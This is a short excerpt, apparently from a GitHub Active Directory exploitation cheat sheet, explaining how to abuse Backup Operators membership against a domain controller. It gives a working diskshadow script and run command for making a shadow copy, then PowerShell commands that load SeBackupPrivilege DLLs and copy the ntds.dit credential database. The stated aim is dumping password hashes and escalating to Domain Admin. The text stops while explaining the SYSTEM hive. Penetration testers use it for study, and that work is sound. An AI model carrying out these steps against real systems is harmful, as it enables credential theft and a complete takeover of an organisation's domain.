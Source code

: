 ## Abusing Backup Operators Group

**From GitHub:** [Git](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)

WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.


- Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow


**Shadow Copy Script:** (script.txt)

````
{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
}

````

- Executing the diskshadow script 

`diskshadow /s script.txt`

Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use this amazing repo:


- Importing both dlls from the repo using powershell

`Import-Module .\SeBackupPrivilegeCmdLets.dll`

`Import-Module .\SeBackupPrivilegeUtils.dll`

- Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
- I created a **temp** directory to throw these files into `mkdir temp`

`Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite`

- Dumping the SYSTEM hive as well (What is this?) 

A hive is a logical group of keys, subkeys, and values in the registry that has a set of supporting files loaded into memory when the operating system is started or a user logs in.  A user's hive contains specific registry information pertaining to the user's application settings, desktop, environment, network connections, and printers. 
